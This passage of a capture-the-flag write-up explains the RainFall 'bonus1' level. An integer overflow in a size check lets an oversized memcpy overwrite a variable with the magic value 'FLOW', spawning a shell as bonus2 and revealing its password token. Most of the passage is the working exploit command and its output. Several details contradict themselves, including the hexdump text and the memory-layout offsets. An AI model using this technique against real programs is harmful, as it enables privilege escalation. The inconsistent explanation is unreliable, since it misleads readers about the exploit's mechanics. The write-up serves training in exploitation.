 **Integer Overflow Confirmation:**
- **nb = -2147483637**: Passes <= 9 check ✓
- **nb * 4 = 44**: After unsigned conversion ✓
- **Can copy 44 bytes**: Enough to overwrite nb variable ✓

### 11. Crafting the Magic Value Payload
```bash
# Magic value: 0x574f4c46 ("FLOW")
# Need little-endian byte order for x86: \x46\x4c\x4f\x57

# Payload structure:
# [40 bytes padding] + [4 bytes magic value]

bonus1@RainFall:~$ python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"' | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 464c 4f57            AAAAAAAAFOW
# Total: 44 bytes (40 + 4)
```

### 12. Execute the Final Exploit
```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

**Success!**
1. **Integer validation bypassed**: -2147483637 <= 9 ✓
2. **Overflow calculation**: -2147483637 * 4 = 44 bytes (after conversion) ✓
3. **Buffer overflow**: 44 bytes copied, overwriting nb variable ✓
4. **Magic value set**: nb = 0x574f4c46 ("FLOW") ✓
5. **Shell execution**: execl("/bin/sh", "-c", NULL) called ✓
6. **Privilege escalation**: Shell runs with bonus2 privileges ✓

### 13. Understanding the Execution Flow
```bash
# Step-by-step execution analysis:

1. argv[1] = "-2147483637"
   atoi() converts to signed int: -2147483637
   Validation: -2147483637 <= 9 ✓ (passes)

2. Size calculation: nb * 4 = -2147483637 * 4 = -8589934548
   Cast to size_t (unsigned): 0x0000002C = 44 bytes

3. memcpy(buffer, argv[2], 44)
   Copies 44 bytes from argv[2] to buffer at ESP+20

4. Memory layout after memcpy:
   ESP+20 to ESP+47: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" (40 A's)
   ESP+48 to ESP+51: Not overwritten (only 44 bytes copied)
   ESP+60 to ESP+63: 0x574f4c46 ("FLOW") ← nb variable overwritten!

5. Magic value check: nb == 0x574f4c46 ✓
   execl("/bin/sh", "-c", NULL) executed
```
